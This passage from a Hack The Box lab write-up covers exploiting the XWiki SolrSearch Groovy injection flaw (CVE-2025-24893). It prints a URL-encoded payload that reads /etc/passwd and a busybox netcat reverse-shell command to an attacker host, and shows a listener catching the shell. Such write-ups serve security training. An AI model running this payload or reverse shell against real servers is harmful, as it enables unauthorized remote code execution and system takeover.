 ```bash
p;&nbsp;&lt;copyright /&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:creator&gt;XWiki&lt;/dc:creator&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:language&gt;en&lt;/dc:language&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;dc:rights /&gt;<br/>&nbsp;&nbsp;&lt;/channel&gt;<br/>&lt;/rss&gt;</p><div class="wikimodel-emptyline"></div><div class="wikimodel-emptyline"></div>
```

BOOM! We got the output. From here some questions will come into our mind that *How to identify SolrSearch endpoint?* <br>
&rarr; Search for the `CVE-2025-24893` and found out this [blog](https://www.offsec.com/blog/cve-2025-24893/) from Offensive Security talk deep about this exploit.

We saw a click from the output, let's check it out.

```bash
http://wiki.editor.htb:80/xwiki/bin/view/Main/SolrSearch?text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22cat%20%2Fetc%2Fpasswd%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

![editor](/assets/img/editor-htb-season8/editor-htb-season8_xwiki_rce.png)

So to able to get the reverse shell, we need to modified the payload `cat /etc/passwd`. <br>
We gonna change to `busybox nc 10.10.16.31 3333 -e /bin/sh` and get the reverse shell.

The reason why using [busybox](https://gtfobins.github.io/gtfobins/busybox/) instead of `nc`: <br>
- Single executable containing implementations of many common Unix utilities
- Space-efficient alternative to GNU coreutils, util-linux, etc.
- Designed for embedded systems where space and memory are limited
- Self-contained - one binary provides hundreds of commands

> And also `nc` sometimes are available and not available but also using `nc` alone may failed for some situation. To know more about [busybox](https://gtfobins.github.io/gtfobins/busybox/) &rarr; Check out this [blog](https://duckwrites.medium.com/oscp-tip-reverse-shell-with-busybox-359d755a6383).

Now start the listener in our kali machine, we gonna use `penelope -p 3333` to get the reverse shell.

```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.31
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

